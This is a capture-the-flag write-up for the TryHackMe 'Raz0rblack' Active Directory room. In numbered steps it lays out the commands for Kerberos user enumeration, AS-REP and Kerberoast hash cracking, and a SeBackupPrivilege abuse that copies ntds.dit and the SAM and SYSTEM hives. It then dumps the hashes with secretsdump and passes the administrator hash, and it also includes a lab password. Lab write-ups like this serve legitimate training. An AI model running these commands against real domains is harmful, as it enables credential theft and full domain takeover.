 # Raz0rblack

https://tryhackme.com/room/raz0rblack

A good AD room, with some interesting windows privesc. Worth writing up as some of this stuff is finicky.

Via the flag submission panel, some users can be gathered. HOWEVER, this writeup assumes you don't do this.

1. nmap -A over the machine will reveal the domain controller name is raz0rblack.thm
2. kerbrute (obtainable [here](https://github.com/ropnop/kerbrute)) run as following will reveal a number of users: `kerbrute userenum -d raz0rblack.thm --dc <ip> /usr/share/wordlists/SecLists/Usernames/x
ato-net-10-million-usernames.txt`: administrator, twilliams (with a hash) and sbradley.
3. The hash for twilliams can be broken with hashcat, rockyou and  `-m 18200`, revealing the password for this user.
4. With credentials, the rest of the users can be gathered via impacket's lookupSID: `python3 /opt/impacket/examples/lookupsid.py raz0rblack.thm/twilliams:roastpotatoes@10.10.
115.139`, revealing two additional users, xyan1d3 and lvetrova.
5. By adding xyan1d3 and lvetrova to users.txt, we can then attempt to kerbroast: `/opt/impacket/examples/GetUserSPNs.py -dc-ip <ip> raz0rblack.thm/twilliams -outputfile
hashes.kerbroast` (this will prompt for a password) which will reveal a hash for the user xyan1d3.
6. The hash from above can be broken with hashcat, rockyou and `-m 13100` to get the password for xyan1d3.
7. Using this password with evil-winrm we can get an interactive session as this user: `evil-winrm -i <ip> -u xyan1d3 -p <password>
8. xyan1d3 has the following permissions: 

```
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

Meaning that getting a credential dumb via backups should be possible.

9. A backup of ntds.dit can be made as so: `echo y | wbadmin start backup -backuptarget:\\localhost\c$\users\xyan1d3\Doc
uments -include:c:\windows\ntds\`. This will put the backup in the user's documents folder (note the use of a local c$ share to satisfy both the requirement of a share and the target being ntfs)
10. To extract the ntds.dit, the version id of the backup can be obtained via `wbadmin get versions`, and then the file can be gathered via `echo Y | wbadmin start recovery -itemtype:file -items:C:\windows\ntds\ntds.dit -recoverytarget:Z:\ -notrestoreacl -version:<version-id>`
11. Finally, gathering the sam hive and system hive via `reg save hklm\sam sam.save` and `reg save hklm\system system.save`, the hashes for users can be extracted via `secretsdump.py -system System.hive -sam Sam.hive -ntds ntds.dit LOCAL`.
12. With the admin hash from above, complete system compromise can be obtained via evil-winrm and passing the hash: `evil-winrm -i <ip> -u administrator -H <hash>`
